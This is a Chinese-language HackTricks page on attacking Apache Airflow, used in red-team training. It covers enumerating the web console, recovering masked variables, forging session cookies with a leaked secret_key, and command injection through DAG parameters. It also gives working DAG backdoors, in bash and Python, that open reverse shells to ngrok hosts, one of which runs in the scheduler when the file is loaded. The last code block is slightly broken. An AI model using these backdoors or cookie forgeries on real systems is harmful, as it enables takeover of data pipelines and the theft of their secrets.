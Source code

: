 # Apache Airflow Security

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 基本信息

[**Apache Airflow**](https://airflow.apache.org) 作为一个 **编排和调度数据管道或工作流** 的平台。在数据管道的上下文中，“编排”一词表示安排、协调和管理来自各种来源的复杂数据工作流的过程。这些编排的数据管道的主要目的是提供经过处理和可消费的数据集。这些数据集被广泛应用于众多应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，所有这些都是大数据应用程序正常运行的基础。

基本上，Apache Airflow 将允许您 **在某些事情发生时调度代码的执行**（事件，cron）。

### 本地实验室

#### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件** 启动一个完整的 Apache Airflow Docker 环境。（如果您在 MacOS 上，请确保为 Docker 虚拟机分配至少 6GB 的 RAM）。

#### Minikube

运行 Apache Airflow 的一种简单方法是 **使用 Minikube 运行它**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow 配置

Airflow 可能在其配置中存储 **敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

在开始攻击 Airflow 之前，您应该了解 **权限是如何工作的**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻击

#### Web 控制台枚举

如果您有 **访问 web 控制台** 的权限，您可能能够访问以下一些或全部信息：

* **变量**（自定义敏感信息可能存储在这里）
* **连接**（自定义敏感信息可能存储在这里）
* 在 `http://<airflow>/connection/list/` 中访问它们
* [**配置**](./#airflow-configuration)（敏感信息如 **`secret_key`** 和密码可能存储在这里）
* 列出 **用户和角色**
* **每个 DAG 的代码**（可能包含有趣的信息）

#### 检索变量值

变量可以存储在 Airflow 中，以便 **DAG** 可以 **访问** 其值。这类似于其他平台的秘密。如果您有 **足够的权限**，可以在 GUI 中访问它们，地址为 `http://<airflow>/variable/list/`。\
Airflow 默认会在 GUI 中显示变量的值，但根据 [**这个**](https://marclamberti.com/blog/variables-with-apache-airflow/) 的说法，可以设置一个 **变量列表**，其 **值** 将在 **GUI** 中显示为 **星号**。

![](<../../.gitbook/assets/image (164).png>)

然而，这些 **值** 仍然可以通过 **CLI**（您需要有数据库访问权限）、**任意 DAG** 执行、**API** 访问变量端点（需要激活 API），甚至 **GUI 本身** 来 **检索**！\
要从 GUI 访问这些值，只需 **选择您想访问的变量**，然后 **点击操作 -> 导出**。\
另一种方法是对 **隐藏值** 进行 **暴力破解**，使用 **搜索过滤** 直到您获得它：

![](<../../.gitbook/assets/image (152).png>)

#### 权限提升

如果 **`expose_config`** 配置设置为 **True**，则从 **用户角色** 及 **以上** 可以 **读取** **web 中的配置**。在此配置中，**`secret_key`** 出现，这意味着任何拥有此有效密钥的用户都可以 **创建自己的签名 cookie 来冒充任何其他用户账户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 后门 (Airflow worker 中的 RCE)

如果您对 **DAG 保存的位置** 有 **写入权限**，您可以 **创建一个** 发送 **反向 shell** 的 **DAG**。\
请注意，这个反向 shell 将在 **airflow worker 容器** 内执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 后门 (Airflow 调度器中的 RCE)

如果您将某些内容设置为**在代码的根目录中执行**，在撰写本文时，它将在将其放入 DAG 文件夹后几秒钟内**由调度器执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 创建

如果你成功**攻陷了 DAG 集群中的一台机器**，你可以在 `dags/` 文件夹中创建新的 **DAG 脚本**，它们将会在 DAG 集群中的其余机器上**复制**。

#### DAG 代码注入

当你从 GUI 执行一个 DAG 时，你可以**传递参数**给它。\
因此，如果 DAG 编写不当，它可能会**容易受到命令注入的攻击。**\
这就是在这个 CVE 中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

你需要知道的**开始寻找 DAG 中命令注入的方法**是**参数**是通过代码**`dag_run.conf.get("param_name")`**来**访问**的。

此外，**变量**也可能出现相同的漏洞（请注意，拥有足够权限的情况下，你可以在 GUI 中**控制变量的值**）。变量通过以下方式**访问**：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们被用在例如 bash 命令中，你可能会执行命令注入。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
